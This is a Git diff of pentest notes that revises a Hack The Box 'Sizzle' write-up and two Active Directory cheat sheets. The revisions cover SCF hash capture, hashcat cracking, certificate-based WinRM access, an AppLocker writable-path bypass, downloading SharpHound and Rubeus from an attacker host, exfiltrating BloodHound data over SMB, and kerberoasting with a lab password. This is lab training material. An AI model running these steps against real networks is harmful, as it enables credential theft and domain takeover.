

GITBOOK-86: No subject

diff --git a/Pentest Journeys/boxes/insane/sizzle.md b/Pentest Journeys/boxes/insane/sizzle.md
@@ -108,13 +108,10 @@ PORT      STATE SERVICE       VERSION
 49692/tcp open  msrpc         Microsoft Windows RPC
 49704/tcp open  msrpc         Microsoft Windows RPC
 49721/tcp open  msrpc         Microsoft Windows RPC
-Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
-Device type: general purpose
+
 Running (JUST GUESSING): Microsoft Windows 2016 (88%)
 OS CPE: cpe:/o:microsoft:windows_server_2016
-Aggressive OS guesses: Microsoft Windows Server 2016 (88%)
-No exact OS matches for host (test conditions non-ideal).
-Network Distance: 2 hops
+
 Service Info: Host: SIZZLE; OS: Windows; CPE: cpe:/o:microsoft:windows
 ```
 {% endcode %}
@@ -135,7 +132,7 @@ grep reel /etc/hosts
 10.10.10.103     sizzle htb.local sizzle.htb.local
 ```
 
-### Web Server Enumeration
+### HTTP
 
 The homepage on port `80` shows some delicious bacons sizzling 🥓 (Figure 1) !
 
@@ -147,7 +144,7 @@ The homepage on port `80` shows some delicious bacons sizzling 🥓 (Figure 1) !
 
 [Fuzzing](../../tools/tools/web/fuff.md) for directories, subdomains, and vhosts returns nothing. The same goes for [checking the metadata](../../tools/tools/images.md) of the GIF image. Not much else to explore here!
 
-### SMB Enumeration
+### SMB
 
 Let's see if the SMB server proves more fruiful 🍌 (Figure 2).
 
@@ -168,7 +165,7 @@ $ nxc smb sizzle.htb.local -u 'guest' -p '' --spider 'Department Shares' --regex
 
 <figure><img src="../../.gitbook/assets/sizzle_share_spider.png" alt=""><figcaption><p>Figure 3: Spidering the 'Department Shares' share.</p></figcaption></figure>
 
-A lot of different directories are there, so let's download (Figure 4) and work with them locally (Figure 5).
+A lot of different directories are there, so let's download them (Figure 4) and inspect them locally (Figure 5).
 
 {% code overflow="wrap" %}
 ```bash
@@ -181,7 +178,7 @@ nxc smb sizzle.htb.local -u 'guest' -p '' -M spider_plus -o DOWNLOAD_FLAG=True M
 
 <figure><img src="../../.gitbook/assets/sizzle_zz_archive_share.png" alt=""><figcaption><p>Figure 5: Listing the content of the ZZ_ARCHIVE directory.</p></figcaption></figure>
 
-All files seems broken; noone can actually open 😤 ! This share also contains a `Users` directory which lists this machine's usernames (Figure 6). As a result, we can create a username list and try some common AD attacks with it. &#x20;
+All files seems broken; noone can actually open 😤 ! This share also contains a `Users` directory which lists this machine's usernames (Figure 6). As a result, we can create a username list and try some common Active Directory attacks with it. &#x20;
 
 {% code overflow="wrap" %}
 ```bash
@@ -211,11 +208,11 @@ cat users.lst
 
 <figure><img src="../../.gitbook/assets/nxc_users_list.png" alt=""><figcaption><p>Figure 7: Creating a clean username list.</p></figcaption></figure>
 
-Attempting an [ASREPRoasting](../../tl-dr/tl-dr/active-directory/asreproasting.md) attack is unsuccesful.&#x20;
+Attempting an [ASREPRoasting](../../tl-dr/tl-dr/active-directory/asreproasting.md) attack is unsuccesful :disappointed\_relieved: .&#x20;
 
-### LDAP Enumeration
+### LDAP
 
-The web ports and SMB have given us nothing so far. Our options are narrowing down, so LDAP might be the way in🤞(Figure 8) !&#x20;
+The web ports and SMB have given us nothing so far. Our options are narrowing down, so LDAP might be the way in🤞...unfortunately, LDAP requires authenticatio (Figure 8) !
 
 ```bash
 # enumrerating users via ldap
@@ -224,13 +221,9 @@ nxc ldap sizzle.htb.local -p '' -u '' --users
 
 <figure><img src="../../.gitbook/assets/sizzle_nxc_ldap_users.png" alt=""><figcaption><p>Figure 8: Trying to enumerate through LDAP.</p></figcaption></figure>
 
-LDAP needs a valid user, so it is also gives us nothing.&#x20;
+## Attacking SMB
 
-## SCF Files
-
-We have enumerated almost everything, and we have nothing :thinking: ! SMB has given us the most information so far, and there is one last thing we could enumerate: **writable directories**. If we find a directory in which we have `WRITE` access, we can upload a malicious file and steal any user's hash when they log into that folder.
-
-First, we need to mount the whole share (Figure 9).
+We have enumerated almost everything, and we have nothing :thinking: ! There is one last thing we could enumerate: **writable directories**. If we find a directory in which we have `WRITE` access, we wil be able to uploiad a malicious file. When a user opens that file, their hash will be send back to us. First, we need to mount the whole share (Figure 9).
 
 ```bash
 # mounting the share
@@ -241,7 +234,7 @@ ls SMB/Department\ Shares/
 
 <figure><img src="../../.gitbook/assets/sizzle_mount_share.png" alt=""><figcaption><p>Figure 9: Mounting the share and listing its contents.</p></figcaption></figure>
 
-Next, we have to check for the permissions of each directory. We can do this using a `for` loop and `smbcalcs` while moving from directory to directory. We are looking for an ACL the gives `Everyone` `WRITE` or `FULL` access (Figure 10).
+Next, we have to check for the permissions of each directory. We can do this using a `for` loop and `smbcacls` while moving from directory to directory. We are looking for an ACL that gives `Everyone` `WRITE` or `FULL` access (Figure 10).
 
 {% code overflow="wrap" %}
 ```bash
@@ -255,9 +248,11 @@ After enumerating all directories, we find out that `Everyone` has `FULL` access
 
 <figure><img src="../../.gitbook/assets/sizzle_public_acl.png" alt=""><figcaption><p>Figure 11: Everyone has FULL access to the Public folder!</p></figcaption></figure>
 
-Following the steps found [here](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) (Figure 12), sure enought `amanda` opens the file :open\_file\_folder: and we get her hash (Figure 13) !
+Following the steps found [here](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) (Figure 12), we get `amanda`'s hash (Figure 13) !
 
 ```bash
+# creating an scf file
+nano important.scf
 # copying the file to the writable directory
 sudo cp important.scf SMB/Users/Public/
 # firing up responder
@@ -274,7 +269,7 @@ We can now copy the hash to a file and use `hashcat` to crack it :unlock: (Figur
 # cracking the hash
 hashcat amanda_hash /usr/share/wordlists/rockyou.txt
 # showing the result
-
+hashcat amanda_hash --show
 ```
 
 <figure><img src="../../.gitbook/assets/sizzle_hash_pass.png" alt=""><figcaption><p>Figure 14: Cracking the hash with Hashcat.</p></figcaption></figure>
@@ -292,6 +287,170 @@ nxc winrm 10.10.10.103 -u amanda -p amanda_pass
 
 <figure><img src="../../.gitbook/assets/sizzle_amanda_access.png" alt=""><figcaption><p>Figure 15: Validating Amanda's credentials and checking remote access.</p></figcaption></figure>
 
+## Credentialed Enumeration
+
+Now that we have a valid domain user, we start enumerating the services all over again (Figure 16).
+
+```bash
+nxc smb 10.10.10.103 -u amanda -p amanda_pass --shares --users
+```
+
+<figure><img src="../../.gitbook/assets/sizzle_amanda_smb_enum.png" alt=""><figcaption><p>Figure 16: Enumerating SMB users and groups with a valid domain user.</p></figcaption></figure>
+
+Amanda has `READ` access to the `CertEnroll` share and we can also see some users that are not currently in our username list. Let's first add those users in our existing list (Figure 17) and then enumerate the share (Figure 18).&#x20;
+
+```bash
+# write the output to a file
+nxc ldap 10.10.10.103 -u amanda -p amanda_pass --users > ldap_users
+# clean the junk lines
+nano ldap_users
+# check that the names are extracted
+awk -F' ' '{print $5}' ldap_users
+# append users in the current list
+awk -F' ' '{print $5}' ldap_users >> users.lst
+# remove duplicates and write the output to a new file
+cat users.lst | sort | uniq > domain_users
+# list new username list
+cat domain_users
+```
+
+<div align="center">
+
+<figure><img src="../../.gitbook/assets/sizzle_domain_user_list.png" alt=""><figcaption><p>Figure 17: Creating a new domain username list.</p></figcaption></figure>
+
+</div>
+
+<figure><img src="../../.gitbook/assets/sizzle_certenroll_enum.png" alt=""><figcaption><p>Figure 18: Enumerating the CertEnroll share.</p></figcaption></figure>
+
+The `CertEnroll` share is a common DC share that has a **Certification Authority (CA) Web Enrollment role service**. As mentioned [here](https://learn.microsoft.com/en-us/windows-server/identity/ad-cs/certificate-authority-web-enrollment),  this service provides web pages, such as `certsrv`, that allow users to perform certificate tasks, and by using Amanda's credentials we are able to login (Figure 19).
+
+<figure><img src="../../.gitbook/assets/sizzle_certsrv.png" alt=""><figcaption><p>Figure 19: Logging into the Active Directory Certificate Services directory.</p></figcaption></figure>
+
+We know that `amanda` does not have WinRM access using her password, but we can also use WinRM with a pair of public and private key certificates :key2:  (Figure 20).&#x20;
+
+<figure><img src="../../.gitbook/assets/sizzle_winrm_help.png" alt=""><figcaption><p>Figure 20: The help menu of Evil-WinRM.</p></figcaption></figure>
+
+By following the process outlined [here](https://revocent.com/how-to-create-x-509-certificates-on-linux/?source=post\_page-----90f747882061--------------------------------), we can generate the required files (Figure 21).&#x20;
+
+```bash
+# create a key pair
+openssl genrsa -out amanda.key 4096
+# create the certificate signing request
+openssl req -new -key amanda.key -out amanda.csr
+```
+
+<figure><img src="../../.gitbook/assets/sizzle_gen_certs.png" alt=""><figcaption><p>Figure 21: Creating a Certificate Singning Request.</p></figcaption></figure>
+
+Next, we have to submit our CSR to the CA by visiting the `/certsrv` directory -> _Request a Certificate_ ->  _advanced certificate request_ -> past the content of the `amanda.csr` file to the _Saved Request_ field (Figure 22) -> _Submit_ -> _Download certificate (Base 64 encoded)_.
+
+<figure><img src="../../.gitbook/assets/sizzle_cert_submit.png" alt=""><figcaption><p>Figure 23: Submitting a certificate request.</p></figcaption></figure>
+
+We now have both the files we need to use with WinRM: `amanda.cer` (renamed the `certnew.cer`) and `amanda.key` (Figure 24).
+
+```bash
+evil-winrm -u amanda -c amanda.cer -k amanda.key -i 10.10.10.103 -S
+```
+
+<figure><img src="../../.gitbook/assets/sizzle_foothold.png" alt=""><figcaption><p>Figure 24: Using WinRM with the public and private key certificate.</p></figcaption></figure>
+
+## Domain Enumeration
+
+Now that we got our foot on the door🚪, we can try to collect and analyze all the available domain information. The `upload` function of `evil-winrm` does not work for some reason, so we can transfer `SharpHound.exe` via an HTTP server and run it...or not (Figure 26)?
+
+{% hint style="danger" %}
+For BloodHound Community Edition **download the latest compatible SharpHound ingestor**!
+{% endhint %}
+
+{% tabs %}
+{% tab title="1. HTTP Server" %}
+```bash
+# starting an HTTP server from the directory that SharpHound.exe resides
+python3 -m http.server 80
+```
+{% endtab %}
+
+{% tab title="2. Download" %}
+```powershell
+# downloading the executable from the target host
+IWR -Uri http://10.10.14.4/SharpHound.exe -OutFile sh.exe
+# running the executable
+.\sh.exe -c all
+```
+{% endtab %}
+{% endtabs %}
+
+<figure><img src="../../.gitbook/assets/sizzle_blocked_gp.png" alt=""><figcaption><p>Figure 26: SharpHound is blocked by the host's group policy.</p></figcaption></figure>
+
+It seems that we can't execute files due to AppLocker's group policies. Luckily, there are many default writable paths, such as `C:\Windows\Registration\CRMLog`, that we can write to and execute a file from (paths listed [here](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md#placing-files-in-writeable-paths)) (Figure 27).
+
+```powershell
+# move to a writeable directory
+cd C:\Windows\Registration\CRMLog
+# copy the executable
+copy ~/sh.exe .
+# execute the file
+.\sh.exe -c all
+# list the files
+ls
+```
+
+<figure><img src="../../.gitbook/assets/sizzle_sh_temp.png" alt=""><figcaption><p>Figure 27: Moving to a writeable folder in order to execute the binary.</p></figcaption></figure>
+
+Next, we need to transfer the `zip` file to our attack host. We will do that using SMB (Figure 28).
+
+{% tabs %}
+{% tab title="1. SMB Server" %}
+```bash
+# start an SMB server with authentication on the attack host
+impacket-smbserver -smb2support share . -username test -password test
+```
+{% endtab %}
+
+{% tab title="2. Connect" %}
+<pre class="language-powershell"><code class="lang-powershell"><strong># connect to the SMB server from target 
+</strong><strong>net use x: \\10.10.14.4\share /USER:test test
+</strong></code></pre>
+{% endtab %}
+
+{% tab title="3. Transfer" %}
+```powershell
+# transfer the file to the SMB server
+copy 20240329053814_BloodHound.zip x:\
+```
+{% endtab %}
+{% endtabs %}
+
+<figure><img src="../../.gitbook/assets/sizzle_zip_transfer.png" alt=""><figcaption><p>Figure 28: Connecting to the SMB server and copying the file over.</p></figcaption></figure>
+
+Uploading and analyzing the domain data into [BloodHound](../../tools/tools/active-directory/bloodhound.md), **a path to domain compromise is** **revealed:**
+
+1. The account `mrlky` is susceptible to [Kerberoasting](../../tl-dr/tl-dr/active-directory/kerberoasting.md) (Figure 29).
+2. The account `mrlky` has [DCSync](../../tl-dr/tl-dr/active-directory/dcsync.md) rights over `HTB.LOCAL` (Figure 30).
+
+<figure><img src="../../.gitbook/assets/sizzle_bh_kerberoast.png" alt=""><figcaption><p>Figure 29: BloodHound identifies that the account mrlky is kerberoastable.</p></figcaption></figure>
+
+<figure><img src="../../.gitbook/assets/sizzle_mlky_dcsync_bh.png" alt=""><figcaption><p>Figure 30: BloodHound shows us that the account mrlky has DCSync rights over the domain.</p></figcaption></figure>
+
+{% tabs %}
+{% tab title="1. HTTP Server" %}
+```bash
+# starting an HTTP server from the directory that Rubeus.exe resides
+python3 -m http.server 80
+```
+{% endtab %}
+
+{% tab title="2. Download" %}
+{% code overflow="wrap" %}
+```bash
+# downloading the executable from the target host
+IWR -Uri http://10.10.14.4/Rubeus.exe -OutFile rb.exe
+# running the executable
+.\Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972 /user:mrlky /outfile:hash.txt /format:hashcat
+```
+{% endcode %}
+{% endtab %}
+{% endtabs %}
+
 ## Resources
 
 {% tabs %}
@@ -299,7 +458,11 @@ nxc winrm 10.10.10.103 -u amanda -p amanda_pass
 {% embed url="https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/" %}
 {% endtab %}
 
-{% tab title="Second Tab" %}
+{% tab title="x509 Certificates" %}
+{% embed url="https://revocent.com/how-to-create-x-509-certificates-on-linux/?source=post_page-----90f747882061--------------------------------" %}
+{% endtab %}
 
+{% tab title="Writable AppLocker Paths" %}
+{% embed url="https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md#placing-files-in-writeable-paths" %}
 {% endtab %}
 {% endtabs %}

diff --git a/Pentest Journeys/services/smb-139-445.md b/Pentest Journeys/services/smb-139-445.md
@@ -191,6 +191,26 @@ $ for i in $(ls); do echo $i; smbcacls -N '//10.10.10.103/share1' /dir1/$i ; don
 {% endtab %}
 {% endtabs %}
 
+{% tabs %}
+{% tab title="1. Server" %}
+```bash
+impacket-smbserver -smb2support share . -username test -password tes
+```
+{% endtab %}
+
+{% tab title="2. Connect" %}
+```powershell
+ net use x: \\10.10.14.4\share /USER:test test
+```
+{% endtab %}
+
+{% tab title="3. Transfer" %}
+```powershell
+copy file1 x:\
+```
+{% endtab %}
+{% endtabs %}
+
 ### Other
 
 {% tabs %}

diff --git a/Pentest Journeys/tl-dr/tl-dr/active-directory/kerberoasting.md b/Pentest Journeys/tl-dr/tl-dr/active-directory/kerberoasting.md
@@ -30,9 +30,11 @@ Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
 {% endtab %}
 
 {% tab title="Rubeus" %}
+{% code overflow="wrap" %}
 ```powershell
-.\Rubeus.exe kerberoast
+.\Rubeus.exe kerberoast /creduser:domain\user1 /credpassword:pass /user:targetUser /outfile:hash.txt /format:hashcat
 ```
+{% endcode %}
 {% endtab %}
 {% endtabs %}
 
